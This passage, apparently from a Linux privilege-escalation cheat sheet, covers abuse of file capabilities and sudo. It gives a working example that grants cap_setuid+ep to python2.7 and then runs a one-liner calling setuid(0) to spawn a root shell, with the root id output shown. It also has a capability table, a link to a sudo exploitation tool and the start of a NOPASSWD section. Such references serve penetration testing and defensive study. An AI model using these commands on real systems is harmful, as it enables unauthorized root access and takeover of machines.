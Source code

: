 Alternatively the following capabilities can be used in order to upgrade your current privileges.

```powershell
cap_dac_read_search # read anything
cap_setuid+ep # setuid
```

Example of privilege escalation with `cap_setuid+ep`

```powershell
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```

| Capabilities name  | Description |
|---|---|
| CAP_AUDIT_CONTROL  | Allow to enable/disable kernel auditing |
| CAP_AUDIT_WRITE  | Helps to write records to kernel auditing log |
| CAP_BLOCK_SUSPEND  | This feature can block system suspends   |
| CAP_CHOWN  | Allow user to make arbitrary change to files UIDs and GIDs |
| CAP_DAC_OVERRIDE  | This helps to bypass file read, write and execute permission checks |
| CAP_DAC_READ_SEARCH  | This only bypass file and directory read/execute permission checks  |
| CAP_FOWNER  | This enables to bypass permission checks on operations that normally require the filesystem UID of the process to match the UID of the file  |
| CAP_KILL  | Allow the sending of signals to processes belonging to others  |
| CAP_SETGID  | Allow changing of the GID  |
| CAP_SETUID  | Allow changing of the UID  |
| CAP_SETPCAP  | Helps to transferring and removal of current set to any PID |
| CAP_IPC_LOCK  | This helps to lock memory  |
| CAP_MAC_ADMIN  | Allow MAC configuration or state changes  |
| CAP_NET_RAW  | Use RAW and PACKET sockets |
| CAP_NET_BIND_SERVICE  | SERVICE Bind a socket to internet domain privileged ports  |

## SUDO

Tool: [Sudo Exploitation](https://github.com/TH3xACE/SUDO_KILLER)

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.
